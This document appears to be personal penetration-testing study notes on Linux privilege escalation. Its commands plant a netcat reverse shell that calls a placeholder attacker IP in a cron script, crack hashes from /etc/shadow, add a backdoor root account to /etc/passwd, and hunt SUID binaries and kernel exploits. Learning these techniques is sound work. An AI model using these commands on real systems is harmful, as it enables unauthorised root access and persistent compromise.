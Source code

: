 
| [[08 Linux Privilege Escalation#Abusing Cron Jobs\|Abusing Cron Jobs]] | [[08 Linux Privilege Escalation#Abusing Setuid Binaries\|Abusing Setuid Binaries]] | [[08 Linux Privilege Escalation#Exploiting Kernel Vulnerabilities\|Exploiting Kernel Vulnerabilities]] |
| ------------------------------------------------------------------- | ------------------------------------------------------------------------------- | --------------------------------------------------------------------------------------------------- |
## Abusing Cron Jobs
```shell
# Inspect cron log file
kali@kali:~$ grep "CRON" /var/log/syslog

# Inspect permissions for vulnerable scripts found
kali@kali:~$ ls -lah /home/joe/.scripts/user_backups.sh

# If writable, add reverse shell one-liner
kali@kali:~$ echo "rm /tmp/f;mkfifo /tmp/f; cat /tmp/f|/bin/sh -i 2>&1|nc <KALI_IP> <PORT> >/tmp/f" >> user_backups.sh
```

## Abusing Password Authentication
```shell
# View passwords stored in /etc/shadow
kali@kali:~$ cat /etc/shadow

# If can crack, just crack
kali@kali:~$ sudo hashcat -m 500 hashes.shadow /usr/share/wordlists/rockyou.txt --force
# Hash format => $1$... after the first colon delimiter

# If /etc/passwd is writable, it takes precedence

# Generate password hash using crypt
kali@kali:~$ openssl passwd w00t

# Add entry to /etc/passwd
kali@kali:~$ echo "root2:Fdzt.eqJQ4s0g:0:0:root:/root:/bin/bash" >> /etc/passwd

# Escalate to root2 (new superuser)
kali@kali:~$ su root2 # enter password "w00t" when prompted
```
## Abusing Setuid Binaries
```shell
# Inspect real UID and eUID assigned to processes
kali@kali:~$ grep Uid /proc/<PID>/status

# Look for SUID files
kali@kali:~$ find / -perm -u=s -type f 2>/dev/null

# Assign SUID flag (runs as file's owner)
kali@kali:~$ chmod u+s <FILE>

# Enumerate for binaries with capabilities
kali@kali:~$ /usr/sbin/getcap -r / 2>/dev/null
kali@kali:~$ sudo -l

# Refer to GTFOBins to exploit these
# https://gtfobins.github.io/
# App-Armor might block check with
kali@kali:~$ aa-status
```

## Exploiting Kernel Vulnerabilities
```shell
# System info cmds (covered in Inital Entry Point)
kali@kali:~$ cat /etc/issue
kali@kali:~$ uname -r
kali@kali:~$ arch

# Searchsploit to find exploits
kali@kali:~$ searchsploit "linux kernel ubuntu 16 local privilege escalation" | grep "4." | grep -v " < 4.4.0" | grep -v "4.8"

# Compile exploits on target machine if possible

# Inspect Linux ELF file architecture
kali@kali:~$ file cve-2017-16995
```
## Additional Notes:
- Look at services run by root, are they vulnerable to RCE?
- Search for plaintext/hashed credentials within the filesystem